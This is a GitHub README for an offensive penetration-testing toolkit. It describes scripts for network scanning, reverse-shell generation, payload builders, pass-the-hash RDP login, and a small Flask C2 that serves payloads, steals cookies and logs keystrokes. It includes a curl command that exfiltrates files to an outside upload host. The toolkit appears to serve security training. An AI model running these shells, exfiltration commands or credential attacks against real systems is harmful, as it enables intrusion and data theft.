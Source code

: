 # Incompetent Bastard

*Not so fine (you'll find out) bash and python scripts for incompetent bastards, like myself.*



command `screen -list` will show you the availabe screens.

An here are some basics.....

Press "Ctrl-A" on the keyboard and press "D" to detach from a screen

Press "Ctrl-A" on the keyboard and press "Esc."
Press the "Up" and "Down" arrow keys or the "PgUp" and "PgDn" keys to scroll through previous output.
Press "Esc" to exit scrollback mode.








## Bash scripts currently on board


### ./init.sh (always use this function first)

This script will setup the basisc things. Safe your OpenVPN file in the meuk directory as client.ovpn. If this file is there, `init.sh` will start it in a detachted screen. 

If everything is well, you'll see the following results

```
# screen -list                                                                                                                    
There are screens on:
	1708.metasploit	(07/22/2022 10:02:47 AM)	(Detached)
	1704.http	(07/22/2022 10:02:47 AM)	(Detached)
	1701.smb	(07/22/2022 10:02:47 AM)	(Detached)
	1699.vpn	(07/22/2022 10:02:47 AM)	(Detached)
4 Sockets in /run/screen/S-root.
```

And off you go.




### ./scan.sh (always use this function second)

This wil take a basic nmap scan of the network. For example mylocalnetwork

```./scan.sh eth0 mylocalnetwork 12.3.4/24```

Scan output will be prefixed with `mylocalnetwork`


### ./search.sh

Completed the scan with `scan.sh`? `search.sh` greps the output

Find all host's Up:
```./search.sh mylocalnetwork up```

Find all MS SMB shares:
```./search.sh mylocalnetwork microsoft-ds```

Find all Samba shares
```./search.sh mylocalnetwork Samba```

Etc. Use your imagination. 

### ./revershells.sh

This file is called by `scan.sh`

Generates some reverse shells and a txt file for some good ol' copy & paste.
Currently default's to port 443 you. Change this by giving the port als a second option.
You'll find the generated shells and the textfile shell_443.txt in the directory http/payloads.

Usage (with port set to default port):
```./reverseshell.sh eth0```
Or to change the port to 4444:
```./reverseshell.sh eth0 4444```

The reverse shells are taken from 

### ./shell.sh

Connect to a screen

### ./sshuttle.sh

Obvious

### ./commands.sh

inject a file from http/commands in to a screen session

```./commands.sh screenname filename```

### ./kerberos.sh
Get info from domain controlers

Usage:
```./kerberos.sh mylocalnetwork```

### ./ftp_anon.sh
Enumerates all open ftp shares with nmap.

Usage:
```./ftp_anon.sh mylocalnetwork```

### ./ftp_asp.sh

todo

### ./rfi_input.sh

This one utilizes `php://input%00`


### ./gen_passwords.sh

Just run `./gen_passwords.sh`

Generates a password list of basic passwords with common variations. You might want to change the values in commonpasswords and take a close look to your cewl output.

When you are stuck on PNPT this might give you a clue.... Thank me later ;)


### ./vpn.sh

A simple wrapper for xfreerdp

With default creds: `./vpn.sh 127.0.0.1`
With other creds: `./vpn.sh 127.0.0.1 Administrator P@ssw0rd!`
With Pash the Hash `./vpn.sh 127.0.0.1 Administrator x NTLMHASH`


### ./gui.sh

Yes, it comes with a GUI, well sort off....

## Python scripts onboard

### app.py

This script is called by `init.sh` make sure you ran `scan.sh` before visiting `app.py` on localhost.

Elevating humanity with a new twisted variant of `python3 -m http.server 80` in Flask. A C2 for poor people...

`flask run --port 80` 

It currently supports:
- serving payloads
- basic reporting (owasp top 10 and CWE top 25) and note keeping
- xss payloads, extracting cookies, keylogger etc.
- Quick overview of generated payloads by `reverseshell.sh`
- Some bookmarks... yolo.
- Pesky SSRF 307 redirects
- Second Order SQLi
- XXE
- Upload directory. Easily extract files from hosts with with `curl -F file=@FILENAME https://incompetentbastard.com/upload`
- Sync findings to DefectDojo
- Domain fronting & C2 functionality
- An overview (and interacting) of current attached screens and MSF sessions
- Random quotes!


A manual will be available in the not-too-distant future..

### methaspx.py

Builds an custom aspx shell and some malicious VB and HTA files

### invoke-shellcode.py

Adjusted from: 
https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1

Invokes a reverse 32x or 64x reverse TCP shell instead of calc.

### meterpreter.py

Builds a custom exe with payload

### powershell.py

Generate some custom powershell scripts and writes it to the file generated by `reverseshells.sh`. 
It also create some download links (lolbas/powershell) for the files at the `http/tools/` directory.

### payloads.py

[Todo] Generates some extra custom payloads.



# dependancies

For MacOS, this might help...


- ip `brew install iproute2mac`
- mono/ xbuild `brew install mono`
- ` pip3 install dnsrecon asciinema nmaptocsv`


For KALI, try....

- apt install mono-xbuild
- `pip3 install dnsrecon asciinema nmaptocsv flask_bootstrap flask_migrate flask_admin --break-system-packages`



